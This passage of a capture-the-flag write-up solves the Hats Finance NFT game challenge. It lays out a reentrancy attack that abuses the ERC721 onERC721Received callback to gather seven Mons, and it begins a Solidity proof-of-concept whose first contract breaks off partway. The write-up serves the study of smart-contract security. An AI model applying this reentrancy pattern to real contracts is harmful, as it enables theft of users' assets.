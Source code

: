 
## Back to the Game

Quite literally, the winning move is going back to the game.

Let’s recap:

- Calling the `Games#fight()` function with a wallet holding 7 _Mons_ wins the
  game
- Transfer of NFTs between wallets is only possible through the `Games#swap/3`
  function
- Directly after a _Mon_ transfer, the receiver is called via the
  `ERC721#onERC721Received/4` function

The solution is to use the `ERC721#onERC721Received/4` callback to reenter the
game.


## Capture the Flag

A path to capture the flag would then be:

- Create a few fren wallets, each joining the game and holding 3 _Mons_
- Create an attacker contract and join the game
- Call the `Games#swap/3` function from a fren wallet to transfer a _Mon_ to
  the attacker wallet
- The attacker uses the ERC721 callback function, in which they hold 4 _Mons_,
  to let a fren wallet send them another _Mon_
- Repeat the last step until the attacker’s wallet holds at least 7 _Mons_
- If the attacker holds at least 7 _Mons_ while being called via
  `onERC721Received/4`, attack the flag holder via `Games#fight()`


## Implementing the PoC

We need two different contracts, the user fren contracts from which the
attacker borrows NFTs, and the attacker contract that reenters the game when
called via `onERC721Received/4`.

You can find the whole repo [here](https://github.com/pmerkleplant/Hats-Finance-Game-Solution).

Let’s start with the `User` contract:

```solidity
contract User {
    // The attacker's address.
    address private immutable solution;
    // The game's address.
    IGame private immutable game;
    // Our deck, i.e. our 3 Mon NFTs.
    uint[3] private deck;

    constructor(address game_) {
        solution = msg.sender;
        game = IGame(game_);
    }

    function joinGame() external {
        deck = game.join();
        require(
            game.balanceOf(address(this)) == 3,
            "User#joinGame: Joinig game failed"
        );
    }

    // Note that a Mon needs to be flagged as `upForSale` before a swap
    // can be initiated.
```